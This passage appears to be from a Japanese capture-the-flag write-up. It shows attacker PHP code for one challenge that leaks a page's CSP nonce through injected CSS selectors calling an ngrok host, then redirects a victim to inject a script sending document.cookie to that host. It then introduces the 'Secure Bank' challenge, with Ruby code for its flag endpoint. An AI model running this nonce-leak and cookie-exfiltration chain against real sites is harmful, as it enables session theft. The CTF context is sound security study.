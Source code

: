 ```php
				$x = $nonce . $c1 . $c2;
				echo("[nonce^='" . $x . "'] { background: url(http://cf07fd07.ap.ngrok.io/?nonce=" . $x . ") }" . PHP_EOL);
			}
		}
	}
	else if (array_key_exists("go", $_GET)) {
		$nonce = file_get_contents("nonce.txt");
		if (strlen($nonce) < 32) {
			header("Location: http://35.187.214.138:10023/?q=%3Clink%20rel%3D%22stylesheet%22%20href%3D%22http%3A%2F%2Fcf07fd07.ap.ngrok.io%2F%3Fcss%3D" . microtime(true) . "%22%3E");
		}
		else {
			header("Location: http://35.187.214.138:10023/?q=%3Cscript%20nonce%3D%22" . $nonce . "%22%3Efetch(%22http%3A%2F%2Fcf07fd07.ap.ngrok.io%2F%3Fsave%3D%22%20%2B%20encodeURIComponent(document.cookie))%3C%2Fscript%3E");
		}
	}
	else if (array_key_exists("start", $_GET)) {
		file_put_contents("nonce.txt", "", LOCK_EX);
		file_put_contents("flag.txt", "", LOCK_EX);
?>
<html>
<body>
<script>
	setInterval(() => {
		const iframe = document.createElement("iframe");
		iframe.src = `?go=${(new Date).getTime()}`;
		document.body.appendChild(iframe);
	}, 256);
</script>
</body>
</html>
<?php
	}
	else {
		echo("E R R O R !");
	}
?>
```

# Secure Bank (497pts)

rubyで書かれたアプリケーションで、コインの送受信ができます。
たくさんのコインを集めれば、FLAGが入手できるようです。

```ruby
  get '/api/flag' do
    return err(401, 'login first') unless user = session[:user]

    hashed_user = STRETCH.times.inject(user){|s| Digest::SHA1.hexdigest(s)}

    res = DB.query 'SELECT balance FROM account WHERE user = ?', hashed_user
    row = res.next
    balance = row && row[0]
    res.close

    return err(401, 'login first') unless balance
    return err(403, 'earn more coins!!!') unless balance >= 10_000_000_000

    json({flag: IO.binread('data/flag.txt')})
  end
```
